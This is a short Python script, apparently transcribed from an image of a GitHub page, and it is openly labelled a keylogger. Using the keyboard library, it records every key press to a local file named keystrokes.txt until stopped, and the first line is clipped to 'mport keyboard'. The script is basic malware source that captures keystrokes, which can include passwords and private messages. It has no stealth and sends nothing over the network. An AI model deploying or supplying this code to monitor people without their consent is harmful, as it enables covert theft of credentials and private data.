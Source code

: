 mport keyboard  
import time

log_file = "keystrokes.txt"

def on_key_press(event):
    with open(log_file, "a") as f:  
        f.write(f"{event.name}")  
keyboard.on_press(on_key_press)
print("Keylogger started. Press 'Ctrl + C' to stop.")
try:
    while True:
        time.sleep(1) 
except KeyboardInterrupt:
    print("\nKeylogger stopped. Check 'keystrokes.txt' for logged keys.")

